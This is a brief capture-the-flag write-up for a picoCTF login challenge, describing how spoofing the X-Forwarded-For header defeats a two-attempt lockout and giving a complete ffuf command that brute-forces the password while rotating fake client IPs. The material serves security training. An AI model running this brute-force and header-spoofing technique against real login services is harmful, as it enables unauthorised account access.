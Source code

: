 # URL
https://play.picoctf.org/practice/challenge/521
# Concept
* bypassing brute-force restrictions
* using the `X-Forwarded-For` header
# Method of solve
* we're given a password list and a username, but we notice that the app locks your app after two incorrect login attempts
* we need to bypass the rate-limiting, and we can do that with the `X-Forwarded-For` header
* we can use `FFuF` to fuzz the app and perform the brute force attack
* FFuF command
```
ffuf -X POST -d '{"email":"ctf-player@picoctf.org","password":"FUZZ2"}' -H "Content-Type: application/json" -H "X-Forwarded-For: 127.FUZZ1.1.1" -u http://amiable-citadel.picoctf.net:62495/login -w ./passwords.txt:FUZZ2 -w ./numbers.txt:FUZZ1 -mc all -mode pitchfork
```


